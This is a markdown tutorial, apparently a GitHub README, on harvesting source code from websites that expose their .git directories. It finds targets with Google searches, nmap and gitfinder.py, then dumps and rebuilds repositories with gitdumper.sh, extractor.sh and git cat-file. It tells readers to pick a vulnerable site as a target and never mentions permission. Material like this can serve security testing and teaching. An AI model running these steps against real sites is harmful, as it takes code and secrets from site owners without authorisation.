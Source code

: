 
/.git/ing all your data - Steps for putting it all together
=========================================================

**First things first, make sure you have your tools cloned from [https://github.com/internetwache/GitTools][1]**

**Step One**: Find some vulnerable sites

You can use google to do this quickly with an advanced search query. 

![][image-1]

You can also use nmap to discover this by running `nmap -A xx.xxx.xxx.xxx`

![][image-2]

You can also use the finder tool to discover sites that have their git repos exposed

` $ python3 gitfinder.py -i ~/myUrlsToTest.txt -o ~/vulnerableSites.txt`

Once you have found a vulnerable site there are two paths forward

![][image-3]

**Step Two**: Assuming directory listing is turned off,  pick a target from the `vulnerableSites.txt` list and run the dumper tool against it. If it doesn’t download the objects, open the config file it downloaded and see what url it is redirecting to. Restart the dumper tool against the new url.

` $ ./gitdumper.sh http://anyVulnerableSite.com/.git/ ~/dumpedSource `

**Step Three**: You should now have the dumped source code in the `dumpedSource` folder on your machine. You can try to run the extractor tool against it to see if it will rebuild the source. This doesn’t always work but its worth a try.

` $ ./extractor.sh ~/dumpedSource ~/rebuiltSource`

If it worked, you will then find all the source code files in `~/rebuiltSource`

If it didn’t, you can also try to make a fresh directory on your machine and clone  ` ~/dumpedSource` into it. Sometimes Git is smart enough to rebuild the source code files from the nested objects for you. 

If the extractor tool or a standard git clone doesn’t get you the source code files, then you must use Git Internals.

![][image-4]

The first thing you want to do is find out what the last commit on the master branch is. To do this run ` cat /.git/refs/heads/master` . The output will be a SHA1 hash. Save that hash somewhere.

Next, find out what tree is attached to that SHA1 you saved (insert your SHA1)
`git cat-file -p 72321A2529A310853ABA41AAFD9AD651EC40DF76`


You will see any output that contains a tree. Grab that SHA1 and repeat the process by running the same command

`git cat-file -p [tree SHA1 here]`

You will be presented with the source code files. Keep repeating the `git cat-file -p` command on the SHA1’s you are interested in viewing.

To make life easier, you can search using these commands:

![][image-5]

[1]:	https://github.com/internetwache/GitTools

[image-1]:	https://s3.amazonaws.com/hacking.online.public/google.png
[image-2]:	https://s3.amazonaws.com/hacking.online.public/nmap.png
[image-3]:	https://s3.amazonaws.com/hacking.online.public/twoPaths.png
[image-4]:	https://s3.amazonaws.com/hacking.online.public/gitInternalsOverview.png
[image-5]:	https://s3.amazonaws.com/hacking.online.public/search.png